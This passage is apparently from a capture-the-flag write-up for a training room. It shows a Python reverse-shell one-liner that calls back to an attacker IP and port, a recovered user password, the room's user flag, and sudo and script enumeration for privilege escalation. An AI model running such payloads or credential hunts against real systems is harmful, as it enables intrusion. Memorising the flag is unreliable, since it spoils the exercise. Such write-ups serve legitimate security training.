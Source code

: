 Now, we can use the console to open a reverse shell with the following payload:

```python
import os,pty,socket;s=socket.socket();s.connect(("10.10.95.69",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

>You can add an SSH key and get a better shell after the initial Python shell.
{: .prompt-tip }

>What is the user flag?
> - [x] THM{SQli_SsRF_2_WeRkZeuG_PiN_ExPloit}
{: .prompt-info }

## Privilege Escalation

At first glance, the `~/app/app.py` file contains a `MYSQL_PASSWORD` variable. That being said, the current value of the variable does not appear to be the password for `mcskidy`. However, the `~/app` directory is a Git repository, and after looking through the repository log, I found that the previous `MYSQL_PASSWORD` is the user's password.

```shell
git log --all -p app.py
```

![Git](blog/thm/aoc_23_room4/git.png)

```
mcskidy:F453TgvhALjZ
```

This then helped me to find out that the user can run the following command as root.

```shell
mcskidy@proddb:~/app$ sudo -l  
Matching Defaults entries for mcskidy on proddb:  
   env_reset, mail_badpass, secure_path=/home/mcskidy\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User mcskidy may run the following commands on proddb:  
   (root) /usr/bin/bash /opt/check.sh
```

Looking into `/opt/check.sh`, we can see that the file cannot be edited due to its privileges, and overall the script can't be exploited. However, the files load `/opt/.bashrc`, so possibly we can somehow exploit that.

```bash
#!/bin/bash  
. /opt/.bashrc  
cd /home/mcskidy/  
  
WEBSITE_URL="http://127.0.0.1:8000"  
  
response=$(/usr/bin/curl -s -o /dev/null -w "%{http_code}" $WEBSITE_URL)  
  
# Check the HTTP response code  
if [ "$response" == "200" ]; then  
 /usr/bin/echo "Website is running: $WEBSITE_URL"  
else  
 /usr/bin/echo "Website is not running: $WEBSITE_URL"  
fi
```
